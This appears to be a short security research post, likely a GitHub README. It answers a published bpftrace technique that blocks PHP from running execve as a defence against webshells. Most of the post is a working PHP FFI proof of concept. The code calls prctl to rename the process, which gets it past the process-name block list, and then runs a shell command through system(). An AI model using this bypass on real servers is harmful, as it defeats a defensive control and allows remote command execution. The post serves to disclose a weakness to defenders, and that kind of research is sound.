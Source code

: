 [@cr0nym](https://x.com/cr0nym) posted about using bpftrace to generically stop php from executing execve, preventing most generic web shells + command execution exploits:  
[Generic bpftrace-based RCE/webshell prevention technique for critical Linux network services](https://www.defensive-security.com/resources/generic-bpftrace-based-rcewebshell-prevention-technique-for-critical-linux-network-services)

some distros such as latest debian ship PHP with FFI enabled by default which means one can just call prctl to change the name of the forked process to bypass the blacklist. There are other methods incase prctl is added to the script left as an exercise to astute readers.  

```php
<?php
$ffi = FFI::cdef("
    int system(const char *command);
    int prctl(int option, const char *arg2, unsigned long arg3, 
              unsigned long arg4, unsigned long arg5);
");
$name = "ABAB";
$ffi->prctl(15, $name, 0, 0, 0);
$ffi->system('id');
?>

```
